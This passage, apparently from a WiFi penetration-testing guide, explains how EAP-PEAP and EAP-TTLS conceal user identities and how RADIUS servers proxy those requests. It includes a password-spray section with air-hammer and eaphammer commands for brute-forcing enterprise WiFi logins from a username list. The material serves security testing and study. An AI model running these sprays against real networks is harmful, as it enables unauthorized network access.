     EAP-Identity = anonymous@realm_x

    In this example, users belonging to different realms hide their own identity but indicate which realm they belong to so that the first hop RADIUS server may proxy the EAP-PEAP or EAP-TTLS requests to RADIUS servers in their home realms which will act as the PEAP or TTLS server.  The first hop server acts purely as a RADIUS relay node.

    Alternatively, the first hop server may act as the EAP-PEAP or EAP-TTLS server and either process the protected authentication method or proxy it to another server.  This option may be used to configure different policies for different realms.

In EAP-PEAP, once the PEAP server and the PEAP client establish the TLS tunnel, the PEAP server generates an EAP-Identity request and transmits it down the TLS tunnel.  The client responds to this second EAP-Identity request by sending an EAP-Identity response containing the user’s true identity down the encrypted tunnel.  This prevents anyone eavesdropping on the 802.11 traffic from discovering the user’s true identity.

EAP-TTLS works slightly differently.  With EAP-TTLS, the client typically authenticates via PAP or CHAP protected by the TLS tunnel.  In this case, the client will include a User-Name attribute and either a Password or CHAP-Password attribute in the first TLS message sent after the tunnel is established.

With either protocol, the PEAP/TTLS server learns the user’s true identity once the TLS tunnel has been established.  The true identity may be either in the form user@realm or simply user.  If the PEAP/TTLS server is also authenticating the user, it now knows the user’s identity and proceeds with the authentication method being protected by the TLS tunnel.  Alternatively, the PEAP/TTLS server may forward a new RADIUS request to the user’s home RADIUS server.  This new RADIUS request has the PEAP or TTLS protocol stripped out.  If the protected authentication method is EAP, the inner EAP messages are transmitted to the home RADIUS server without the EAP-PEAP or EAP-TTLS wrapper.  The User-Name attribute of the outgoing RADIUS message contains the user’s true identity – not the anonymous identity from the User-Name attribute of the incoming RADIUS request.  If the protected authentication method is PAP or CHAP (supported only by TTLS), the User-Name and other authentication attributes recovered from the TLS payload are placed in the outgoing RADIUS message in place of the anonymous User-Name and TTLS EAP-Message attributes included in the incoming RADIUS request.
EAP-Bruteforce (password spray)

If the client is expected to use a username and password (notice that EAP-TLS won't be valid in this case), then you could try to get a list a usernames (see next part) and passwords and try to bruteforce the access using air-hammer.

./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt

You could also do this attack using eaphammer:

./eaphammer --eap-spray \
	--interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \
	--essid example-wifi \
	--password bananas \
	--user-list users.txt

Client attacks Theory
Network Selection and Roaming

Although the 802.11 protocol has very specific rules that dictate how a station can join an ESS, it does not specify how the station should select an ESS to connect to. Additionally, the protocol allows stations to roam freely between access points that share the same ESSID (because you wouldn’t want to lose WiFi connectivity when walking from one end of a building to another, etc). However, the 802.11 protocol does not specify how these access points should be selected. Furthermore, even though stations must be authenticated to the ESS in order to associate with an access point, the 802.11 protocol does not require the access point be authenticated to the station.
Preferred Network Lists (PNLs)
